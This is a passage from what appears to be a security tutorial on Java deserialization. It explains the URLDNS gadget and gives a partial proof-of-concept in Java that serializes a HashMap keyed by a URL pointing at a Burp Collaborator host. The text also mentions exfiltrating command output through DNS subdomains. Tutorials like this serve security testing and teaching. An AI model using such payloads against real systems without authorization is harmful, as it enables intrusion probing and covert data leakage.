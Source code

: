 As you can see, when a `URLObject` executes`.hashCode()` it is called `hashCode(this)`. A continuation you can see the code of this function:

```java
 protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        [   ...   ]
```

You can see that a `getHostAddress` is executed to the domain,** launching a DNS query**.

Therefore, this class can be **abused **in order to **launch **a **DNS query **to **demonstrate **that **deserialization **is possible, or even to **exfiltrate information **(you can append as subdomain the output of a command execution).

### URLDNS payload code example

You can find the [URDNS payload code from ysoserial here](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java). However, just for make it easier to understand how to code it I created my own PoC (based on the one from ysoserial):

```java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

public class URLDNS {
    public static void GeneratePayload(Object instance, String file)
            throws Exception {
        //Serialize the constructed payload and write it to the file
        File f = new File(file);
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //Read the written payload and deserialize it
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        Object obj = in.readObject();
        System.out.println(obj);
        in.close();
    }

    public static void main(final String[] args) throws Exception {
        String url = "http://3tx71wjbze3ihjqej2tjw7284zapye.burpcollaborator.net";
        HashMap ht = new HashMap(); // HashMap that will contain the URL
        URLStreamHandler handler = new SilentURLStreamHandler();
    URL u = new URL(null, url, handler); // URL to use as the Key
```